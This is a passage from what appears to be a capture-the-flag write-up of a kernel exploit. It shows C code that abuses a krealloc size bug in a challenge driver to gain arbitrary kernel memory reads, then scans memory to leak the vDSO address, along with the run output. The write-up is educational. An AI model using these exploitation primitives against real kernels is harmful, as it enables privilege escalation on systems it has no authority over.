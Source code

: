 
## Leak
From that article the trick is pretty neat, we have to use 'getauxval()', also for searching the functions we can use that dump just remember
```
Typically the vDSO follows the naming convention of prefixing all
symbols with "__vdso_" or "__kernel_" so as to distinguish them
from other standard symbols.  For example, the "gettimeofday"
function is named "__vdso_gettimeofday".
```
So we have to do something like this:
```sh
$ strings -t x vd|grep "__vdso"
    2b1 __vdso_clock_gettime
    2c6 __vdso_gettimeofday
    2da __vdso_time
    2e6 __vdso_getcpu
```
So first we create a new IPC:
```c
struct alloc_channel_args alloc_channel;
alloc_channel.buf_size = 0x2000;
ioctl(fd, CSAW_ALLOC_CHANNEL, &alloc_channel);
int id = alloc_channel.id;
printf("[+] channel id: %d\n", id);
```
Then we resize it with the krealloc bug:
```c
struct grow_channel_args grow_channel;
grow_channel.id = id;
grow_channel.size = 0xffffffffffffffff - alloc_channel.buf_size;
ioctl(fd, CSAW_GROW_CHANNEL, &grow_channel);
```
Then we can finally leak the vdso with:
```c
//Structure for seek
struct seek_channel_args seek_channel;
seek_channel.id = id;
seek_channel.whence = SEEK_SET;
//Structure for read 
struct read_channel_args read_channel;
char *buf = (char *)malloc(alloc_channel.buf_size);
memset((void *)buf, 0, alloc_channel.buf_size);
read_channel.id = alloc_channel.id;
read_channel.buf = buf;
read_channel.count = 0x2000;
unsigned long vdso = 0xffffffff81000000; //No KASLR, so let's start from k_base
for (; vdso < 0xffffffffffffefff; vdso += 0x1000) {
	seek_channel.index = vdso - 0x10; // 0x10 from channel.data
	ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);
	ioctl(fd, CSAW_READ_CHANNEL, &read_channel);
	if (!strcmp(buf + 0x2c6, "__vdso_gettimeofday")) {
		printf("[+] kernel vDSO address: %p\n", (void *)vdso);
		break;
	}
}
```
Let's run our exploit:
```
/ # ./exp
[+] channel id: 1
[+] kernel vDSO address: 0xffffffff81e04000
```
An interesting thing is that we can find it also thanks to /proc/kallsyms
```
```